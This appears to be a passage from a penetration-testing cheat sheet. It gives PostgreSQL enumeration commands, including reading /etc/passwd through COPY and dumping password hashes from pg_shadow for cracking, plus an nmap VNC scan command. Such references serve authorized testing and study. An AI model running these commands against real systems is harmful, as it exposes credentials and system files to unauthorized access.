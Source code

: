 **Get user roles**

```
\\du+

```

**Check user’s privileges over table (pg_shadow)**

```
SELECT grantee, privilege_type FROM information_schema.role_table_grants WHERE table_name='pg_shadow';

```

**Read file (/etc/passwd)**

```
CREATE TABLE demo(t text);
COPY demo FROM '/etc/passwd';
SELECT * FROM demo;

```

**Read usernames and password hashes**

```
# Postgresql password hash format: md5(secret || username) where || denotes string concatenation (remove md5 before cracking hash)
SELECT usename, passwd from pg_shadow;

```

**Check if plpgsql enabled**

```
# Below result indicates that plpgsql enabled:
# lanname | lanacl
#---------+---------
# plpgsql |
SELECT lanname,lanacl FROM pg_language WHERE lanname = 'plpgsql'

```

**PostgreSQL config file location**

```
SHOW config_file;

```

### VNC (5900/tcp)

```
# Version detection + NSE scripts
nmap -Pn -sV -p 5900 --script="banner,(vnc* or realvnc* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" --script-args="unsafe=1" -oN "tcp_5900_vnc_nmap.txt" $ip

```
